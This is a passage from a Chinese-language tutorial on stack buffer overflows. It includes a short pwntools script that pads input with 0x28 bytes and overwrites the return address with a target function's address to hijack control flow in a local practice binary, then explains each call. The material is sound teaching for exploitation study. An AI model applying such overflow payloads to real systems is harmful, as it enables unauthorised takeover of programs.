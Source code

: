 由上图可以看出，只要我们适当地控制输入的值就可以实现修改返回地址，从而实现控制程序的程序流。

### 字符串栈溢出劫持执行流

为了快速构造合适的输入值，实现对程序流的控制，这里引入里一个基于python的工具`pwntools`

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

target_address = elf.sym["func"]

payload = b"A" * 0x28
payload += p64(target_address)

p.send(payload)

p.interactive()
```

上面这个脚本中：

`p`为进程对象（可以将`process`换成`remote(address, port)`使其变成远程连接的对象）

`elf`为可执行程序对象，`elf.sym["func"]`为获取可执行程序中符号`func`的地址

`p64`为将数字根据端序转为64位的字节流。

`p.send(payload)`为将`payload`发送到对应的进程或者远程连接。

`p.interactive()`为保持交互，将输入方从脚本改为用户。

**注意** python3版本的`pwntools`的payload的字符串之前需要加上`b`前缀

下图即为脚本的运行结果。

![image-20230723212310053](images/Stack_Overflow/image-20230723212310053.png)

